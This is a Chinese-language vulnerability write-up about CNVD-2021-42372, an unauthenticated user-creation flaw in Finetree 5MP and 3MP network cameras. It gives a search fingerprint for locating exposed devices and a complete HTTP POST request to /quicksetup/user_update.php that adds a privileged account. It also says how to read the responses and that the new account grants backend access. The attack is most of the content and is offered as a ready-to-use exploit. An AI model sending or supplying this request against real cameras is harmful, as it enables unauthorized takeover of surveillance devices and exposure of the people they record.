




# Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

```
Finetree 5MP
Finetree 3MP
```

## 网络测绘

```
app="Finetree-5MP-Network-Camera"
```

## 漏洞复现

登录页面


存在漏洞的文件 user_pop.php



```
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

可以Burpsuite发送POST请求



或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复



利用添加的账户可以登录后台

